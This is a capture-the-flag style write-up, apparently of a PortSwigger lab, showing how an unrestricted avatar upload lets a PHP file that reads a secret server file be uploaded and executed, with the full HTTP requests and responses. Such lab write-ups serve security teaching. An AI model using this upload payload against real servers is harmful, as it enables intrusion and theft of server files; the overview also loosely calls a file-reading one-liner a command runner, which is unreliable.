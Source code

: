 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/95a1da63-a8a2-48cd-8887-d1f17a2a1591)

## Overview :

- If we're able to successfully upload a web shell, we effectively have full control over the server.
- For example, the following PHP one-liner could be used to run commands on the server:  `<?php echo file_get_contents('/path/to/target/file'); ?>`

Once uploaded , we can pass an arbitrary system command via a query parameter as follows:

```
GET /example/exploit.php?command=id HTTP/1.1
```

## Solution :

Click on any of the blog posts. We can see that we have an option to upload files.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/907e5013-4590-426e-881f-71a47a4f85de)

Similarly login as wiener & we can see that there is an upload functionality here also.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9cfc8e29-35d1-4214-ae91-a29ac7b4e827)


Create a file name `file.php` with the contents - `<?php echo file_get_contents('/home/carlos/file.php'); ?>`

Upload the file & intercept the request in burp.

```
POST /my-account/avatar HTTP/2
Host: 0ae20028048451db80ac6ccb00770069.web-security-academy.net
Cookie: session=XMuD5PzAVGlJwvXHQvNGUesAPnO46yNF
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------104599838211464567631888268358
Content-Length: 527
Origin: https://0ae20028048451db80ac6ccb00770069.web-security-academy.net
Referer: https://0ae20028048451db80ac6ccb00770069.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------104599838211464567631888268358
Content-Disposition: form-data; name="avatar"; filename="file.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/file.php'); ?>

-----------------------------104599838211464567631888268358
Content-Disposition: form-data; name="user"

wiener
-----------------------------104599838211464567631888268358
Content-Disposition: form-data; name="csrf"

zWcS51k2tzIrkultAJbpXr0rIkNKySQ2
-----------------------------104599838211464567631888268358--
```

The response indicates that the file upload of **file.php** was successful.

```
HTTP/2 200 OK
Date: Thu, 27 Jul 2023 15:17:11 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 129

The file avatars/file.php has been uploaded.

<p>
 <a href="/my-account" title="Return to previous page">« Back to My Account</a>
</p>
```


Note that the file has been uploaded at `avatars/file.php`.

Now change the request method to GET with the url **files/avatars/file.php**.

```
GET /files/avatars/file.php HTTP/2
Host: 0ae20028048451db80ac6ccb00770069.web-security-academy.net
Cookie: session=XMuD5PzAVGlJwvXHQvNGUesAPnO46yNF
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://0ae20028048451db80ac6ccb00770069.web-security-academy.net
Referer: https://0ae20028048451db80ac6ccb00770069.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
When the file is fetched, we can see the secret file's contents in the response. It means htat the file got saved &n executed at the backend.

```
HTTP/2 200 OK
Date: Thu, 27 Jul 2023 15:28:36 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

UbkOi2Ajs7rSvyOqimiy5SLOc7K0zYhq
```
Submit the value to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4ef3a750-8f82-4955-98e0-fe17bc430b6a)















